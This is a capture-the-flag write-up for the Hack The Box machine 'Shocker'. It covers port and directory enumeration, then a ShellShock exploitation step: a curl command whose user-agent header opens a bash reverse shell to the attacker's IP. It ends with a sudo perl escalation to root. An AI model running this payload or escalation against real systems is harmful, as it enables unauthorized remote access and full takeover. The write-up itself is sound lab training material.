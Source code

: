 # HTB - Shocker

#### Ip: 10.10.10.56
#### Name: Shocker
#### Rating: Easy

----------------------------------------------------------------------

![Shocker.png](../assets/shocker_assets/Shocker.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:07 CDT
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```

Lets further enumerate the open ports by scanning with the `-sV` and `-sC` flags to enumerate versions and to use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -sC -sV -T4 10.10.10.56 -p 80,2222              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:08 CDT
Nmap scan report for 10.10.10.56
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Ok, looks like the classic http/ssh combo found on many Linux CTFs. Navigating to the website, we see just a simple static page:

![site.png](../assets/shocker_assets/site.png)

Lets kick off some directory enumeration to see if we can find any interesting sub-directories:

```text
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Gobuster doesn't find anything useful for us. But if I include the `-f` flag to append the last `/` character, we find there is in fact a /cgi-bin/ directory.

![gobuster_flag.png](../assets/shocker_assets/gobuster_flag.png)

Interestingly, navigating to http://10.10.10.56/cgi-bin we get a 404 Not Found error (hence our initial Gobuster scan not finding anything, but visiting http://10.10.10.56/cgi-bin/ gives us a 403 Forbidden message. 

Lets continue digging into the /cgi-bin directory:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,php,cgi
[+] Timeout:                 10s
===============================================================
2023/05/05 09:35:42 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Ok cool, now with a name like Shocker, and finding a cgi-bin directory, my first though is to obviously try exploiting the ShellShock vulnerability. If not familiar, ExploitDB has a nice succinct article on the exploit: https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter

### Exploitation

There are a few ways to exploit this vulnerability, but today I'm going to just use bash from my terminal. Setting up a netcat listener on port 443 all I need to do is execute:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1" \http://10.10.10.56/cgi-bin/user.sh
```
And I will catch a shell back as user Shelly (ha!):

![shelly_shell.png](../assets/shocker_assets/shelly_shell.png)

and grab the user.txt flag:

![user_flag.png](../assets/shocker_assets/user_flag.png)

### Privilege Escalation

First thing I like to do once I have initial access on a Linux machine is to run `sudo -l` to list out anything I may be able to run with elevated/ root permissions. It takes no time at all, and can often lead to an easy win.

Today is no different; running `sudo -l` I see I can run `/usr/bin/perl` commands with root permissions:

![sudo.png](../assets/shocker_assets/sudo.png)

For situations like this https://gtfobins.github.io/ is where you want to be. This site is an amazing resource for pentesters/hackers and is extremely user friendly.

In this specific case, all I need to do is search for 'perl' in the search bar, and I am presented with results I can literally copy/paste onto the target to elevate my shell to root:

![gtfo_bins.png](../assets/shocker_assets/gtfo_bins.png)

```text
shelly@Shocker:/home/shelly$     sudo perl -e 'exec "/bin/sh";'
```
This command uses Perl to launch bin/bash and from there all that is left to do is grab the final flag:

![root_flag.png](../assets/shocker_assets/root_flag.png)

And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------------------
